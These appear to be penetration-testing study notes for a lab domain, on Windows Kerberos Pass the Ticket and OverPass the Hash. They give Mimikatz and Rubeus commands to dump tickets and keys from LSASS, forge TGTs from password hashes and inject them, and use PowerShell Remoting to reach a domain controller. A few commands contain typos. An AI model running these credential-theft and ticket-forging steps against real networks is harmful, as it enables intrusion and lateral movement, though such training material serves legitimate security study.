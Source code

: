 -----
We need a valid Kerberos ticket to perform a `Pass the Ticket (PtT)`. It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

## Harvesting Kerberos Tickets from Windows
---
On Windows, tickets are processed and stored by the LSASS process. Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-admin you can only get your ticket, but as a local administrator you can collect everything.

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. The result is a list of files with the extension `.kirbi`, which contain the tickets.

```cmd
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```

#### Rubeus - Export Tickets
---
We can also export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (if running as a local administrator). `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format. We are adding the option `/nowrap` for easier copy-paste.

```cmd
Rubeus.exe dump /nowrap
```

**Note:** To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.


## Pass the Key or OverPass the Hash
---
The traditional PtH technique involves reusing an NTLM password hash that doesn't toch Kerberos. The Pass the Key or OverPass the Hash approach converts a hash/key for domain-joined users into a full TGT.

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

#### Mimikatz - Pass the Key or OverPass the Hash
```cmd
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. In the following example, we use the aes256 hash from the information we collect using Mimikatz `sekurlsa::ekeys`.

#### Rubeus - Pass the Key or OverPass the Hash

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

**Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."


## Pass the Ticket (PtT)
---
Now we can submit the ticket (TGT or TGS) to the current logon session. We can use the `/ptt` flag for this.

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

```cmd
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

```powershell
 [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

Finally, we can also perform the Pass the Ticket attack using the Mimikatz module `kerberos::ptt` and the .kirbi file that contains the ticket we want to import.

```cmd
mimikatz.exe
privilege::debug
kerebros::ptt "<location .kirbi file>"
exit
```

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

## Pass The Ticket with PowerShell Remoting (Windows)
----
Suppose we find a user account that doesn't have administrative privileges on a remote computer but is a member of the Remote Management Users group. In that case, we can use PowerShell Remoting to connect to that computer and execute commands.

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine.

```cmd
mimikatz.exe
privilege::debug
kerebros::ptt "<location .kirbi file>"
exit
```

```cmd
powershell
Enter_PSSession -ComputerName DC01
```

## Rubeus - PowerShell Remoting with Pass the Ticket
---
Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session. The process is hidden by default, but we can specify the flag `/show` to display the process. This prevents the erasure of existing TGTs for the current logon session.

```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```cmd
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```


